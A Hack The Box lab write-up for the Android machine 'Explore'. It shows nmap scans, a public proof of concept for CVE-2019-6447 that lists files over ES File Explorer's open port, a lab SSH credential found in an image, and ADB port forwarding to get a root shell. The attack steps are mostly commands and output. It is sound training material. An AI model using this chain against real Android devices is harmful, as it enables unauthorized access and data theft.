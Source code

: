 ```yaml
---
title:     "Hack The Box - Explore"
tags: [easy,android,adb,cve]
categories: HackTheBox
---
```

[![info_card](/img/explore/info_card.png)](/img/explore/info_card.png)

# User
Explore is an easy rated machine on HackTheBox by [bertolis](https://www.hackthebox.eu/home/users/profile/27897). For the user part we will exploit an open port for ES file explorer to retrieve ssh credentials in a jpg file. After this we will abuse adb being enabled and listening to get a shell as the root user after forwarding it to our machine.

## Nmap

As always we start our enumeration off with a nmap scan against all ports, followed by a script and version detection scan against the open ones to get an overview of the initial attack surface.

`All ports`

```
$ sudo nmap -p- -T4 10.129.167.241
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-27 20:21 GMT
Nmap scan report for 10.129.167.241
Host is up (0.044s latency).
Not shown: 65531 closed ports
PORT      STATE    SERVICE
2222/tcp  open     EtherNetIP-1
5555/tcp  filtered freeciv
38363/tcp open     unknown
59777/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 82.24 seconds
```

`Script and version`

```
$ sudo nmap -sC -sV -p 2222,5555,38363,59777 10.129.167.241
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-27 20:25 GMT
Nmap scan report for 10.129.167.241
Host is up (0.033s latency).

PORT      STATE    SERVICE VERSION
2222/tcp  open     ssh     (protocol 2.0)
| fingerprint-strings:
|   NULL:
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey:
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp  filtered freeciv
38363/tcp open     unknown
| fingerprint-strings:
|   GenericLines:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 20:27:04 GMT
|     Content-Length: 22
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|   GetRequest:
|     HTTP/1.1 412 Precondition Failed
|     Date: Sun, 27 Jun 2021 20:27:04 GMT
|     Content-Length: 0
|   HTTPOptions:
|     HTTP/1.0 501 Not Implemented
|     Date: Sun, 27 Jun 2021 20:27:10 GMT
|     Content-Length: 29
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Method not supported: OPTIONS
|   Help:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 20:27:25 GMT
|     Content-Length: 26
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: HELP
|   RTSPRequest:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 20:27:10 GMT
|     Content-Length: 39
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     valid protocol version: RTSP/1.0
|   SSLSessionReq:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 20:27:25 GMT
|     Content-Length: 73
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|     ?G???,???`~?
|     ??{????w????<=?o?
|   TLSSessionReq:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 20:27:25 GMT
|     Content-Length: 71
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|     ??random1random2random3random4
|   TerminalServerCookie:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 20:27:25 GMT
|     Content-Length: 54
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|_    Cookie: mstshash=nmap
59777/tcp open     http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
...[snip]...

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 102.22 seconds
```

# ES file explorer

Port 59777 on an android device is normally used for ES file explorer. Opening the port in our webbrowser we see that directory listing is disabled.

[![listing_disabled](/img/explore/listing_disabled.png)](/img/explore/listing_disabled.png)

The running installation is vulnerable to [CVE-2019-6447](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln), which let's us read files from the device or start an app. Looking through the images on the device we find an interesting looking `creds.jpg` file.

```
$ python poc.py  --cmd listPics --ip 10.129.167.241
[*] Executing command: listPics on 10.129.167.241
[*] Server responded with: 200

{"name":"concept.jpg", "time":"4/21/21 02:38:08 AM", "location":"/storage/emulated/0/DCIM/concept.jpg", "size":"135.33 KB (138,573 Bytes)", },
{"name":"anc.png", "time":"4/21/21 02:37:50 AM", "location":"/storage/emulated/0/DCIM/anc.png", "size":"6.24 KB (6,392 Bytes)", },
{"name":"creds.jpg", "time":"4/21/21 02:38:18 AM", "location":"/storage/emulated/0/DCIM/creds.jpg", "size":"1.14 MB (1,200,401 Bytes)", },
{"name":"224_anc.png", "time":"4/21/21 02:37:21 AM", "location":"/storage/emulated/0/DCIM/224_anc.png", "size":"124.88 KB (127,876 Bytes)"}
```

The image shows a note with the password for the user katie. Trying it on the open ssh port with the credentials `kristi:Kr1sT!5h@Rp3xPl0r3!` we get access to the device.

[![creds](/img/explore/creds.png)](/img/explore/creds.png)

```
$ ssh kristi@10.129.167.241 -p 2222
Password authentication
Password:
:/ $ id
uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768
:/ $
```

Looking around in the storage folder which also had the image in it we find the user flag.

```
:/storage/emulated/0 $ wc -c user.txt
33 user.txt
```

# Root

We earlier saw that port 5555 showed up in our nmap scan. This is most likely the Android Debug Bridge being enabled on the device.

> “The adb command facilitates a variety of device actions, such as installing and debugging apps, and it provides access to a Unix shell that you can use to run a variety of commands on a device.” — Android’s developer portal

Being able to communicate with it would most likely give us unauthenticated root access to the device.
Checking it again we can see it is listening on all interfaces but seems to be filtered for us.

```
:/storage/emulated/0 $ ss -ln
Netid  State      Recv-Q Send-Q Local Address:Port               Peer Address:Port
...[snip]...
tcp    LISTEN     0      50        *:2222                  *:*
tcp    LISTEN     0      4         *:5555                  *:*
```

We can however access it if we forward the port to our machine with ssh. For this we open the ssh console in our connection by entering `~C` on a new line and issue the local port forward.

```
:/storage/emulated/0 $
ssh> -L:5555:127.0.0.1:5555
Forwarding port.
```

After installing adb on our machine with `apt install adb` we kill the adb server, in case it was already running, so it restarts on the next command.

```
$ adb kill-server
```

We then list all devices to be able to connect to our target with its device name in the next step.

```
$ adb devices
* daemon not running; starting now at tcp:5037

* daemon started successfully
List of devices attached
emulator-5554   device

```

Now we can simply connect to the debugging bridge as the root user and drop into a root shell with `adb shell`.

```
$ adb -s emulator-5554 root
restarting adbd as root
```

```
$ adb shell
x86_64:/ # whoami
root
```

Being the root user we can now add the flag to our collection

```
x86_64:/ # wc -c /data/root.txt
33 /data/root.txt
```

